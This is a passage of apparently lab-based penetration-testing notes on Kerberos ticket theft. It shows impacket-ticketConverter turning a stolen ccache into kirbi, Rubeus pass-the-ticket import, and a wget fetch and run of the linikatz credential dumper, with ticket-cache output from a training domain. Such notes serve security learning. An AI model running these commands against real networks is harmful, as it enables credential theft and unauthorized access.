 If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.

#### Impacket Ticket converter

```shell-session
$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
#### Importing converted ticket into Windows session with Rubeus


```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

# linkatz
```shell-session
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
Valid starting       Expires              Service principal
10/07/2022 11:32:01  10/07/2022 21:32:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/08/2022 11:32:01, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647401106_R9a9hG
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647402606
Default principal: svc_workstations@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [check] KCM Kerberos tickets
```


	